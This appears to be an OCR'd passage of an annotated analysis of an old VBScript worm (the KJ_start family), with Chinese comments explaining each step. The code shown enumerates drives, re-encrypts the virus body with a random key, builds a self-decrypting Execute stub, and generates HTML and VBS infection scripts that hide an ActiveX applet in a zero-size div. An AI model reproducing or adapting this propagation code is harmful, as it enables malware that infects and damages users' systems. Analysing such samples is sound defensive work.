 ```vbscript
' 2: Fixed 
' 3: Network 
' 4: CD-ROM 
' 5: RAM Disk 
' 如果不是可移动磁盘或者固定磁盘就跳出循环。可能作者考虑的是网络磁盘、CD-ROM、RAM Disk都是在比较靠后的位置。呵呵，如果C:是RAMDISK会怎么样？ 
For Each DiskTemp In DiskObject 
If DiskTemp.DriveType <> 2 And DiskTemp.DriveType <> 1 Then 
Exit For 
End If 
FinalyDisk = DiskTemp.DriveLetter 
Next 

' 此前的这段病毒体已经解密，并且存放在ThisText中，现在为了传播，需要对它进行再加密。 
' 加密算法 
Dim OtherArr(3) 
Randomize 
' 随机生成4个算子 
For i=0 To 3 
OtherArr(i) = Int((9 * Rnd)) 
Next 
TempString = "" 
For i=1 To Len(ThisText) 
TempNum = Asc(Mid(ThisText,i,1)) 
'对回车、换行(0x0D,0x0A)做特别的处理 
If TempNum = 13 Then 
TempNum = 28 
ElseIf TempNum = 10 Then 
TempNum = 29 
End If 
'很简单的加密处理，每个字符减去相应的算子，那么在解密的时候只要按照这个顺序每个字符加上相应的算子就可以了。 
TempChar = Chr(TempNum - OtherArr(i Mod 4)) 
If TempChar = Chr(34) Then 
TempChar = Chr(18) 
End If 
TempString = TempString & TempChar 
Next 
' 含有解密算法的字串 
UnLockStr = "Execute(""Dim KeyArr(3),ThisText""&vbCrLf&""KeyArr(0) = " & OtherArr(0) & """&vbCrLf&""KeyArr(1) = " & OtherArr(1) & """&vbCrLf&""KeyArr(2) = " & OtherArr(2) & """&vbCrLf&""KeyArr(3) = " & OtherArr(3) & """&vbCrLf&""For i=1 To Len(ExeString)""&vbCrLf&""TempNum = Asc(Mid(ExeString,i,1))""&vbCrLf&""If TempNum = 18 Then""&vbCrLf&""TempNum = 34""&vbCrLf&""End If""&vbCrLf&""TempChar = Chr(TempNum + KeyArr(i Mod 4))""&vbCrLf&""If TempChar = Chr(28) Then""&vbCrLf&""TempChar = vbCr""&vbCrLf&""ElseIf TempChar = Chr(29) Then""&vbCrLf&""TempChar = vbLf""&vbCrLf&""End If""&vbCrLf&""ThisText = ThisText & TempChar""&vbCrLf&""Next"")" & vbCrLf & "Execute(ThisText)" 
' 将加密好的病毒体复制给变量 ThisText 
ThisText = "ExeString = """ & TempString & """" 
' 生成html感染用的脚本 
HtmlText ="<" & "script language=vbscript>" & vbCrLf & "document.write " & """" & "<" & "div style='position:absolute; left:0px; top:0px; width:0px; height:0px; z-index:28; visibility: hidden'>" & "<""&""" & "APPLET NAME=KJ""&""_guest HEIGHT=0 WIDTH=0 code=com.ms.""&""activeX.Active""&""XComponent>" & "<" & "/APPLET>" & "<" & "/div>""" & vbCrLf & "<" & "/script>" & vbCrLf & "<" & "script language=vbscript>" & vbCrLf & ThisText & vbCrLf & UnLockStr & vbCrLf & "<" & "/script>" & vbCrLf & "<" & "/BODY>" & vbCrLf & "<" & "/HTML>" 
' 生成vbs感染用的脚本 
VbsText = ThisText & vbCrLf & UnLockStr & vbCrLf & "KJ_start()" 
' 取得Windows目录 
' GetSpecialFolder(n) 
' 0: WindowsFolder 
' 1: SystemFolder 
' 2: TemporaryFolder 
' 如果系统目录存在web\Folder.htt和system32\desktop.ini，则用kjwall.gif文件名备份它们。 
WinPath = FSO.GetSpecialFolder(0) & "\" 
If (FSO.FileExists(WinPath & "web\Folder.htt")) Then 
```